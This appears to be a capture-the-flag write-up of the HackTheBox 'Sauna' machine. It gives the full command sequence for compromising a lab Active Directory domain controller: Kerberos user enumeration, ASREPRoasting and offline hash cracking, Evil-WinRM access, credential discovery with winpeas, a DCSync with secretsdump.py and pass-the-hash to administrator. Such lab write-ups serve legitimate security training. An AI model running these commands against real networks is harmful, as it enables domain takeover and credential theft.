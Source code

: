 ```yaml
---
title: "HackTheBox - Sauna"
layout: post
date: 2020-07-18 23:00:00 +0800
---
```


![538af09462c906cb0e66d9594a58a02d.png](/images/htb-sauna/bb9f1e9dd61740339b4baa92250e9815.png)

### 0. Preface

Nothing much to really write about here, but the DCSync attack was really interesting, and demonstrates how poorly configured AD permissions can spell disaster. 

In this box, we will be tackling:

1. Active Directory enumeration.
2. Using NMAP scripts to get valid users. 
3. ASREPRoasting.
4. dsacls and a DCSync attack.

<!--excerpt-->

---

### 1. Preliminary NMAP Scan
```bash
sudo nmap -sC -sV -O -oN nmap.txt 10.10.10.175 -p- -v
```

![77135401280f1fb127a3de512d378651.png](/images/htb-sauna/1403eb066607457e8ecf8bb30b2e5b6d.png)

This is a domain controller that is running on at least Windows Server 2016 (IIS 10.0), with the domain name of EGOTISTICAL-BANK.LOCAL. 

### 2. Anonymous LDAP Enumeration 

First, we are going to start off with LDAP enumeration using nmap to grab the AD Schema (RootDSE) as well as any anonymously available users. 

```bash
sudo nmap -p389 -oN nmap-rootdse.txt 10.10.10.175 -v --script ldap-rootdse
```
![5fefb856d54de0d569630853010de29d.png](/images/htb-sauna/e9c4c252a2774440a6cd7b6fbd11b80c.png)
![f8ea0bada759c9c07fa62c45df6d2dca.png](/images/htb-sauna/413534f761cf45d8a51d18a79266214b.png)

From here, we can see that the domain and forest functionality are 7, which makes it a Windows 2016 Domain Controller. Scrolling further down the results, we can also see that the FQDN of this domain controller is SAUNA.EGOTISTICAL-BANK.LOCAL.

```bash
sudo nmap -p389 -oN nmap-ldap.txt 10.10.10.175 -v --script ldap-search
```
![1d15cc07ee999db24b89c83dcccce447.png](/images/htb-sauna/fdf14f435fa04b3199fc7ccc2dcdacf5.png)

Using ldap-search, we are unable to see attributes anonymously, so let's move on. 

### 3. Web Server & Further Enumeration

Next, we are going to move on to the web server on port 80. 

![2cc08c79c88425cdb49fba35aaa1daa9.png](/images/htb-sauna/1647f42c695346a28322a09a2d92338b.png)

Trying to access some of the links at the top tells us that this is a website that's running on html. We will be running a gobuster scan to find out what .html files are available to us. 

```bash
gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html
```

![ab9077496361a3e68f75cc133aac8d6d.png](/images/htb-sauna/a574c2bf17c0461fa48267254a920e91.png)

Nothing jumps out from the results of the scan, so we are going to have to go through the pages one by one. Looking at the about.html page, we see that there is a list of potential users we can make use of. 

![ae1def2e22163f64a3f668fefb287295.png](/images/htb-sauna/f58c613057fe40cdb4cd19b2cfe247d4.png)

Using this information, we can create a user list using some AD username conventions, then run it through nmap's krb5-enum-users script to check if the users exist. 

Here's the list of usernames we end up with: 

![296a1dbed5021c3c5ceccf00647cef8a.png](/images/htb-sauna/2cfbd3ab4a0a4ab3990a1af5a5d71046.png)

```bash
sudo nmap -p389 -oN nmap-krb5.txt 10.10.10.175 -v --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.LOCAL',userdb='userlist.txt'
```

![f3e2dfd6af557d7c24686e7aa1755de5.png](/images/htb-sauna/f0d15e6672634da4881dc3620e593b12.png)

### 4. Exploiting Kerberos Pre-Authentication (ASREPROAST)

Next, we can try to see if fsmith has Kerberos Pre-Authentication disabled by running Impacket's `GetNPUsers.py`. If the user has Kerberos pre-authentication disabled, this script will return the password hash of the user which we can crack offline with JohnTheRipper. 

```bash
GetNPUsers.py 'egotistical-bank.local/fsmith' -no-pass -dc-ip 10.10.10.175 -format john
```

![cf840d809941ac02d083b62435e74ee4.png](/images/htb-sauna/4dcad8b4208a4202aeaf0b4fd5969d9c.png)

```bash
sudo john --wordlist:/usr/share/wordlists/rockyou.txt fsmith.hash
sudo john --show fsmith.hash
```

![e9a53e46aea1ff99e459c98f10e955a1.png](/images/htb-sauna/1fb7fcbb1aee4715a47f9aba62cf618b.png)

This nets us our first set of credentials, `egotistical-bank.local/fsmith:Thestrokes23`.

### 5. Authenticated LDAP Enumeration 

Using fsmith's credentials, we can use RPCClient to further enumerate the domain controller. 

```bash
rpcclient -U 'egotistical-bank.local/fsmith%Thestrokes23' 10.10.10.175
```

Using `enumdomusers`, we can get a list of domain users from the domain controller.

![3bcdd834496a33e7bc9ec49f99d15afe.png](/images/htb-sauna/e0ff7db9f31d4a07860379b16cd104c3.png)

Next, using `enumalsgroups domain` and `enumalsgroups builtin`, we can see the list of groups available on the domain controller. 

![b1ed8c86a08bac3e50417fd4f6ca8370.png](/images/htb-sauna/4d38fd4727264e66a742ac640f65858a.png)

We can take a look at the Remote Management Users group by using `queryaliasmem builtin 0x244` to see who is able to remotely access the domain controller. We get a list of SIDs from this. 

![b8abada25af0e57b8d84a769fc55e58a.png](/images/htb-sauna/a5bd3ada459549cca823c657b3322c2d.png)

We can lookup the SIDs and see who these belong to using `lookupsids <SID>`. We see that fsmith and svc_loanmgr are in that group. 

![693c5e6bdf8b94d10d190382d1edf9d1.png](/images/htb-sauna/4822af96256343fc977063a04d28f778.png)

### 6. Evil-WinRM and Further Enumeration

Since WinRM is open, we can use Evil-WinRM to remotely access the domain controller as fsmith. 

```bash 
evil-winrm -i 10.10.10.175 -u 'egotistical-bank.local\fsmith' -p 'Thestrokes23'
```

We can now grab the user flag from fsmith's desktop. 

![067f3c054d65f50b0551fee1562ceba9.png](/images/htb-sauna/74125d560848491e8fd9d06b2e24da33.png)

Next, we can start to enumerate the machine. One way to do so is to use winpeas.bat. This batch script will output anything potentially exploitable in the Windows machine. 

```bash
upload ~/haxx0r/windows/winpeas.bat
./winpeas.bat
```

In the winpeas.bat output, we can see that there is a registry key with the username egotistical-bank\svc_loanmanager and a password Moneymakestheworldgoround!

![4a505b878cc9ef0defa32da43787bcf7.png](/images/htb-sauna/d27f97a8df7b44468f1d2ca1d0b52372.png)

We potentially have our next set of credentials - `egotistical-bank.local\svc_loanmgr:Moneymakestheworldgoround!`

Once the script finishes, we can next try enumerating the Domain Controller permissions using `dsacls`. 

```cmd
dsacls "DC=EGOTISTICAL-BANK,DC=LOCAL"
```
![187e0877a55e1efe4bb1b26b3d0a1c04.png](/images/htb-sauna/b1b87f4c521e492dabd594199cc7a6ed.png)

From the output, we can see that svc_loanmgr has the 'Replicating Directory Changes (All)' permissions. This account can be used to do a DCSync attack to get the LMHashes and NTHashes of the administrator account. 

### 7. DCSync Attack and Privilege Escalation 

To do the DCSync attack, we will be using Impacket's `secretsdump.py`. For this to work properly, a hosts file entry has to be added for egotistical-bank.local. 

```bash
secretsdump.py svc_loanmgr@EGOTISTICAL-BANK.LOCAL
```

![5495e19626ee186d150caa8c9d169604.png](/images/htb-sauna/870ff2a14e424d239b89fe9e331f535f.png)

Now that we have dumped the hashes, we can make use of Evil-WinRM again to pass the administrator's NTHash and root the machine. 

```bash
evil-winrm -i 10.10.10.175 -u 'egotistical-bank.local\administrator' -H 'd9485863c1e9e05851aa40cbb4ab9dff'
```

![398933b0fd1a28f3e23a2664db9340bc.png](/images/htb-sauna/3da82e6a3eac4acd941694f802da6707.png)